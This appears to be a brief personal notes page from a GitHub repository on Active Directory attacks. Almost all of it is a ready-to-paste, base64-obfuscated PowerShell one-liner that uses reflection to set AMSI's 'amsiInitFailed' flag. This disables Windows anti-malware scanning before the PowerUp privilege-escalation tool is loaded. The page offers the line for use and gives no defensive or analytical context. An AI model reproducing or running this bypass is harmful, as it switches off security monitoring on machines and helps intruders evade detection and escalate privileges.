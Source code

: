 ## my notes 

## Import PowerUp windows 2023 update

``` [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true) ```


![image](https://github.com/an4kein/AD-n0T3s/assets/37910997/29f401bf-1b31-4836-998f-1e0cb45da63f)
